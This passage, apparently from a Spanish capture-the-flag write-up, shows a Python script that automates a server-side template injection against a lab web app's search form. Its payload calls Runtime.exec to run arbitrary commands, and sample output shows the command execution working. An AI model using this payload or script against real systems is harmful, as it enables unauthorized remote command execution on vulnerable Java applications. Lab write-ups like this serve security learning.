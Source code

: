 # Scripting the SSTI
Inspirándome del gran s4vitar, me apetecía hacer un script en Python para automatizar el SSTI.

```python
import requests
from bs4 import BeautifulSoup
import signal
from prompt_toolkit import PromptSession
from prompt_toolkit.keys import Keys

ENDPOINT_URL = "http://10.129.227.207:8080/search"

def def_handler(x,y):
    print("\n[+] Saliendo...")
    exit(1)

signal.signal(signal.SIGINT, def_handler)


def ssti(command):
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('<COMMAND>').getInputStream())}"
    data = {
        "name": payload.replace("<COMMAND>", command)
    }
    r = requests.post(ENDPOINT_URL, headers = headers, data=data)
    soup = BeautifulSoup(r.text, 'html.parser')
    output = soup.find('h2', class_='searched').text.replace('You searched for: ', '')
    output
    print(output)
    
if __name__ == "__main__":
    session = PromptSession()
    while True:
        try:
            cmd = session.prompt('> ')
            if cmd == 'q': # Salir
                def_handler(1,1)
            ssti(cmd)
        except KeyboardInterrupt:
            break
```

De esta forma obtenemos una pseudo-consola a través del SSTI.
```shell
$ python3 ssti.py 
> whoami
woodenk

> id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)

> ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
```